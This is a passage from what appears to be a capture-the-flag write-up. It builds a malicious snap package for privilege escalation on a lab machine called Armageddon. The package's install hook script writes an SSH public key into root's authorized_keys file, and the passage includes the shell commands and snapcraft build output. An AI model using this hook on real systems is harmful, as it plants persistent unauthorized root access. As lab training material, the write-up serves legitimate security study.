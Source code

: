 
I’ll prep the install hook:

    
    
    oxdf@parrot$ mkdir snap/hooks
    oxdf@parrot$ touch snap/hooks/install
    oxdf@parrot$ chmod a+x snap/hooks/install
    

The next step in the example they save to `install` a Bash script that creates
a user and adds it to the `sudoers` group. I’ll have mine just write a public
SSH key into the root `authorized_keys` file:

    
    
    df@buntu:/tmp/dirty_snap$ cat > snap/hooks/install << "EOF"
    #!/bin/bash
    
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    EOF
    

The next file, `snapcraft.yaml`, is just boilerplate. I’ll just use the
example:

    
    
    df@buntu:/tmp/dirty_snap$ cat > snap/snapcraft.yaml << "EOF"
    name: armageddon
    version: '0.1' 
    summary: Empty snap, used for exploit
    description: |
        pwn armageddon                              
           
    grade: devel
    confinement: devmode
    
    parts:
      my-part:
        plugin: nil
    EOF
    

Now on running `snapcraft`, it creates the package:

    
    
    df@buntu:/tmp/dirty_snap$ snapcraft
    This snapcraft project does not specify the base keyword, explicitly setting the base keyword enables the latest snapcraft features.
    This project is best built on 'Ubuntu 16.04', but is building on a 'Ubuntu 20.04' host.
    Read more about bases at https://docs.snapcraft.io/t/base-snaps/11198
    Pulling my-part 
    Building my-part 
    Staging my-part 
    Priming my-part 
    Snapping 'armageddon' |                                                                                      
    Snapped armageddon_0.1_amd64.snap
    df@buntu:/tmp/dirty_snap$ ls *.snap
    armageddon_0.1_amd64.snap
    